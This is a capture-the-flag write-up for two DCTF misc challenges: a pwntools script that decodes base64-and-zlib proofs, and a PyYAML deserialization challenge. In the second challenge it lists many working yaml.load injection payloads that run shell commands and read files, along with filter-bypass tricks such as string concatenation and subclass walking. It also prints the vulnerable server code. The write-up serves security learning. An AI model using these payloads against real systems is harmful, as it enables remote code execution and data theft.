


# DCTF 2021-2022 – Misc Challenges

## Challenge 1: Zebra-Lib (Easy)

We are given an instance to connect to and we are given the prompt



Entering this into CyberChef showed that it was base64 encoded and compressed with zlib. There was a timeout and many many proofs to compute so I made a script.

### Solution

```
from pwn import *
import zlib
import base64

def decode( b64string ):
    decoded_data = base64.urlsafe_b64decode( b64string )
    return zlib.decompress( decoded_data)

host = "34.141.93.151"
port= 31610

p = remote(host, port)

while True:
    print(p.recvline())
    line = p.recvline()
    print(line)

    try:
        line = line.strip().decode('utf-8')
        print(p.recvline())
        answer = decode(line)
        print(answer.decode('utf-8'))
        p.send(answer + b'\n')
    except:
        print(p.recvline())
        print(p.recvline())
        print(p.recvline())

```

### Flag

After 500 proofs computed, we get the flag


## Raw - Proto (Medium)

We are given another instance to connect to and upon entering some text, we are given a hint that it indicates that `yaml.load()` is loading in unsanitized input.

### Solution

This was my first time trying anything yaml related, so I just hunted around the internet for yaml injections from PayloadsAllTheThings and Hacktricks etc.

I built out a few payloads and tried to see what was available, there was a blacklist for the word open

```
!!python/object/apply subprocess.check_output ["ls"]

!!python/object/apply:os.system ["ls"]

python/object/new:str
    args: []
    state: !!python/tuple
        "ls"
        !!python/object/new:staticmethod
        args: [0]
        state:
            update: !!python/name:exec


print(url_for.__globals__)
!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "print()"]]]

!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "().__class__.__base__.__subclasses__()"]]]


!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "eval{'flag' : eval('chr(105) + chr(110) + chr(116) + chr(40) + chr(111) + chr(112) + chr(101) + chr(110) + chr(40) + chr(39) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116) + chr(39) + chr(44) + chr(32) + chr(39) + chr(114) + chr(39) + chr(41) + chr(46) + chr(114) + chr(101) + chr(97) + chr(100) + chr(40) + chr(41) + chr(41)')}"]]]

!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "print(chr(105) + chr(110) + chr(116) + chr(40) + chr(111) + chr(112) + chr(101) + chr(110) + chr(40) + chr(39) + chr(102) + chr(108) + chr(97) + chr(103) + chr(46) + chr(116) + chr(120) + chr(116) + chr(39) + chr(44) + chr(32) + chr(39) + chr(114) + chr(39) + chr(41) + chr(46) + chr(114) + chr(101) + chr(97) + chr(100) + chr(40) + chr(41) + chr(41))"]]]

!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "print(base64.b64decode('aGVsbG8='))"]]]

!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "{'flag': print(open('flag.txt', 'r'))}"]]]


!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "{'flag': print([].__class__.__base__.__subclasses__())}"]]]

#PAYLOADS THAT WORK

!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "print(globals()['__builtins__']['op'+'en']('flag.txt','r').read())"]]]


!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "print(self.__class__.__mro__[10].__subclasses__()[133].__init__.__globals__['system']('cat flag.txt'))" ]]]

!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "print(self.__class__.__mro__[10].__subclasses__()[133].__init__.__globals__['system']('cat server.py'))" ]]]
```

After tinkering around a bit, I realised that there were some protections. The `os` module was removed, the `open` text filtered, `hex` was filtered, `base64` was filtered.

My payload was simply to concatenate `"op" + "en"` and get around the filter but there were some other brilliant ways to get around it.

List of Working Payloads:

```
!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "print(globals()['__builtins__']['op'+'en']('flag.txt','r').read())"]]]


!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , [ "print(self.__class__.__mro__[10].__subclasses__()[133].__init__.__globals__['system']('cat flag.txt'))" ]]]

!!python/object/new:tuple [!!python/object/new:map [!!python/name:eval , ["print(exec('''sys.modules['os.path'].os.system('cat flag.txt')'''))"]]]
```

Examining the filters around showed that they had this `__init__.py` file:

```
def system(lol=None):
  print("Try Harder!")import sys,yaml
import os
del os
sys.modules['os']=None
x = ''.join(sys.stdin.readline())
if 'open' in x:
    print("Try Harder! I bet you can.. lol.")
    sys.exit(0)
if '\\x' in x:
    print("Try Harder! Hex in python? Is that all you can think off?")
    sys.exit(0)
if 'base64' in x:
    print("Try Harder! base64 in python? Is that all you can think off?")
    sys.exit(0)
print(yaml.load(x))
```
